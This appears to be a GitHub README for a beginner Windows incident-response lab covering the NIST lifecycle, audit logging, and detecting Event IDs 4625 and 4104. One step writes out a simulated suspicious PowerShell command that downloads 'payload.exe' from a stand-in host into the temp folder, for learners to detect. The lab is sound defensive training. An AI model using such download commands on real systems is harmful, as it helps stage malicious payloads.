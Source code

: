 # 🔐 Day #11 – Incident Response Lab (Windows)

![Windows](https://img.shields.io/badge/System-Windows10%2F11-blue?style=flat-square&logo=windows)
![PowerShell](https://img.shields.io/badge/Tool-PowerShell-blue?style=flat-square&logo=powershell)
![SOC](https://img.shields.io/badge/Role-SOC%20Analyst-critical?style=flat-square&logo=security)
![Lab Status](https://img.shields.io/badge/Lab%20Status-Complete-success?style=flat-square)


## 🎯 Objective
Introduce the basics of incident response and simulate common incidents on Windows using built-in tools.

---

## 🧠 What is Incident Response?
Incident Response (IR) is a structured method to handle the aftermath of a cyberattack. It includes:
- Detecting the incident
- Containing the damage
- Investigating the root cause
- Restoring normal operations
- Documenting and reporting findings

---

## 🔄 NIST Incident Response Lifecycle
| Phase | Description |
|-------|-------------|
| 1. Preparation | Setup policies, logs, and tools |
| 2. Detection & Analysis | Identify potential incidents |
| 3. Containment, Eradication, Recovery | Isolate & clean systems |
| 4. Post-Incident | Review and update plans |

---

## 🧪 Lab Simulation: Unauthorized Access

### ✅ Preparation Steps:
1. Run `secpol.msc` ➜ Enable:
   - Audit Logon Events (Success & Failure)
   - Audit Process Creation
2. Enable PowerShell Logging:
   - Script Block Logging
   - Module Logging (via GPO or Registry)

---

### 🛠 Step 1: Simulate Failed Logins
- Lock screen (Win + L)
- Try 2–3 incorrect passwords

---

### 🔍 Step 2: Detect Event ID 4625
- Open **Event Viewer** ➜ `Windows Logs → Security`
- Filter by **Event ID: 4625**
- Note:
  - Account name
  - IP (if present)
  - Logon type

📸 Screenshot required: *Event ID 4625 result*

---

### 🧪 Step 3: Simulate Suspicious PowerShell
```powershell
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "$env:TEMP\payload.exe"
```
---

### 🔍 Step 4: Detect PowerShell Event ID 4104

- Event Viewer ➜ Applications and Services Logs → Microsoft → Windows → PowerShell → Operational
- Filter: **Event ID 4104**
- Identify the PowerShell command

📸 **Screenshot Required:** `Event ID 4104 result`

---

### 🔐 Step 5: Response Actions

- Kill the process in Task Manager
- Delete `payload.exe` from `%TEMP%`
- Record the following in `event_logs.txt`:
  - Username
  - Timestamps
  - Command line arguments

---

### 📝 Submission Instructions

📂 Add the following to your GitHub repo:
- ✅ `images/failed_login.png`
- ✅ `images/powershell_download.png`
- 🧾 Log contents: `event_logs.txt`

---

### 📚 Learnings

- Incident Response requires fast detection, visibility, and quick containment
- Windows Event Viewer provides critical log data
- PowerShell activity logs (Event ID 4104) reveal potentially malicious behavior

---

### 📌 Tags

`#SOCAnalyst` `#IncidentResponse` `#WindowsSecurity` `#EventViewer` `#PowerShellLogging`

---

### 📷 Add images in README

Place your images in the `/images/` folder and embed them like this:

Failed Login - Event ID 4625
![Failed Login - Event ID 4625](./images/failed_login.png)
PowerShell Download - Event ID 4104
![PowerShell Download - Event ID 4104](./images/powershell_download.png)
